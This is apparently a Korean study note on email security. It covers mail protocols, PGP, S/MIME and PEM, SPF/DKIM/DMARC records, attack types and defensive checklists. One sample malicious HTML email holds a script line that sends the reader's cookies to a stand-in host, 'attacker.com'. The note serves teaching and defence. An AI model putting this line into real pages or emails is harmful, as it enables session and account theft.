



## 🌐 개요 (Overview)

이메일은 **바이러스 전파, 스팸, 피싱**의 주요 경로입니다. 이 문서에서는 이메일 보안 프로토콜(PGP, S/MIME)과 이메일 공격 유형을 다룹니다.

## 📧 이메일 프로토콜

### 기본 프로토콜

| 프로토콜 | 포트 | 용도 | 보안 버전 |
|---------|------|------|----------|
| **SMTP** | 25, 587 | 메일 발송 | SMTPS (465) |
| **POP3** | 110 | 메일 수신 (다운로드) | POP3S (995) |
| **IMAP** | 143 | 메일 수신 (동기화) | IMAPS (993) |



---

## 🔐 이메일 보안 프로토콜

### 1. PGP (Pretty Good Privacy)

**Phil Zimmermann**이 개발한 이메일 암호화 프로그램입니다.

#### 특징

| 기능 | 알고리즘 | 설명 |
|------|----------|------|
| **기밀성** | IDEA, CAST, 3DES | 대칭키로 본문 암호화 |
| **인증/무결성** | RSA + MD5/SHA-1 | 전자서명 |
| **압축** | ZIP | 전송 효율성 |
| **단편화** | - | 큰 메시지 분할 |

#### 키 관리: Web of Trust (신뢰의 거미줄)

**중앙 CA 없이** 사용자들이 서로의 키를 직접 서명하여 신뢰 관계를 형성합니다.



**특징**:
- 분산형 신뢰 모델
- 사용자가 직접 신뢰도 결정
- 중앙 실패점(Single Point of Failure) 없음
- 대규모 조직에는 부적합

#### PGP 동작 과정

**암호화 (발신)**:
```plaintext
1. 세션 키(대칭키) 생성
2. 세션 키로 메시지 암호화
3. 수신자의 공개키로 세션 키 암호화
4. 암호화된 메시지 + 암호화된 세션 키 전송
```

**복호화 (수신)**:
```plaintext
1. 자신의 개인키로 세션 키 복호화
2. 세션 키로 메시지 복호화
```

**전자서명**:
```plaintext
1. 메시지의 해시값 생성 (SHA-1/MD5)
2. 발신자의 개인키로 해시값 암호화 (서명)
3. 메시지 + 서명 전송

검증:
1. 수신자가 발신자의 공개키로 서명 복호화
2. 직접 계산한 해시값과 비교
```

---

### 2. S/MIME (Secure MIME)

**MIME 객체에 암호화와 전자서명**을 적용한 표준입니다.

#### 특징

| 항목 | PGP | S/MIME |
|------|-----|--------|
| **키 관리** | Web of Trust | **X.509 인증서 (CA 중심)** |
| **인증서** | PGP 키 | X.509 인증서 |
| **표준화** | IETF OpenPGP | IETF S/MIME |
| **적합 환경** | 개인, 소규모 | **기업, 대규모 조직** |

#### S/MIME 동작



#### 콘텐츠 타입

| 타입 | 파일 확장자 | 설명 |
|------|------------|------|
| application/pkcs7-mime | .p7m | 암호화된 데이터 |
| application/pkcs7-signature | .p7s | 전자서명 |
| multipart/signed | - | 원본 + 서명 |

---

### 3. PEM (Privacy Enhanced Mail)

초기에 제안된 이메일 보안 표준이지만, **구현의 복잡성**으로 널리 쓰이지 않았습니다.

**특징**:
- 계층적 인증 구조
- RSA 공개키 암호화
- DES 대칭키 암호화
- 현재는 PGP 와 S/MIME 가 주로 사용됨

---

### 비교 요약

| 특성 | PGP | S/MIME | PEM |
|------|-----|--------|-----|
| **키 관리** | 분산 (Web of Trust) | 중앙 (CA) | 중앙 (CA) |
| **인증서** | PGP 키링 | X.509 | X.509 |
| **암호화** | IDEA, CAST | 3DES, AES | DES |
| **해시** | MD5, SHA-1 | SHA-256 | MD5 |
| **사용성** | 개인용 | 기업용 | 거의 사용 안 함 |

---

## ⚠️ 이메일 공격 유형

### 1. 스팸 (Spam)

원치 않는 대량 이메일입니다.

**대응**:
- SPF (Sender Policy Framework)
- DKIM (DomainKeys Identified Mail)
- DMARC (Domain-based Message Authentication)

```dns
# SPF 레코드 예시
v=spf1 include:_spf.google.com ~all

# DKIM 레코드 예시
selector._domainkey.example.com TXT "v=DKIM1; k=rsa; p=..."

# DMARC 레코드 예시
_dmarc.example.com TXT "v=DMARC1; p=reject; rua=mailto:report@example.com"
```

### 2. 피싱 (Phishing)

정상 기관을 사칭하여 개인정보를 탈취합니다.

**유형**:
- **스피어 피싱**: 특정 대상을 겨냥
- **웨일링**: 고위 경영진 대상
- **비싱**: 음성 피싱

### 3. 악성 첨부파일

**위험한 확장자**:
```plaintext
실행 파일: .exe, .com, .bat, .cmd, .ps1
스크립트: .js, .vbs, .wsf
오피스 매크로: .docm, .xlsm
압축 파일: .zip, .rar (내부에 악성코드)
```

### 4. HTML 메일 스크립트

```html
<!-- 악성 HTML 메일 예시 -->
<script>
  // 쿠키 탈취
  new Image().src = 'http://attacker.com/steal?' + document.cookie;
</script>


```

**대응**: HTML 렌더링 비활성화, 이미지 자동 로드 차단

---

## 🛡️ 이메일 보안 체크리스트

### 발신자 측

```plaintext
✅ SPF, DKIM, DMARC 설정
✅ TLS/SSL 사용 (SMTPS)
✅ 민감 정보는 암호화 (PGP/S/MIME)
✅ 발신자 인증 요구
```

### 수신자 측

```plaintext
✅ 발신자 주소 확인
✅ 첨부파일 스캔
✅ 링크 URL 검증
✅ HTML 메일 주의
✅ 의심스러운 메일 신고
```

### 서버 측

```plaintext
✅ 스팸 필터 운영
✅ 악성코드 스캔
✅ 발신자 인증 검증 (SPF/DKIM/DMARC)
✅ 첨부파일 확장자 제한
✅ TLS 강제
```

## 🔗 연결 문서 (Related Documents)

- [[cryptography-basics]] - 암호화 알고리즘
- [[authentication-authorization]] - 인증 메커니즘
- [[network-security-protocols]] - TLS/SSL
- [[malware-types]] - 이메일을 통한 악성코드 전파
